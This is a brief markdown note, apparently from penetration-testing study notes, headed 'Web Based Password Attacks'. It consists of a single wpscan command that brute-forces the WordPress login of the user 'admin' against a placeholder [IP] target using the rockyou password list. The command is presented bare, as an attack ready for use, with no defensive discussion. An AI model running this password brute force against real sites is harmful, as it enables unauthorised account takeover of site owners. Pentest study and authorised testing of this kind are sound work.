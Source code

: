 # Web Based Password Attacks

## Wordpress
#### wpscan
##### Brute Force
```
wpscan --url "http://[IP]/wp/wp-login.php?redirect_to=http%3A%2F%2F[IP]%2Fwp%2Fwp-admin%2F&reauth=1" --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```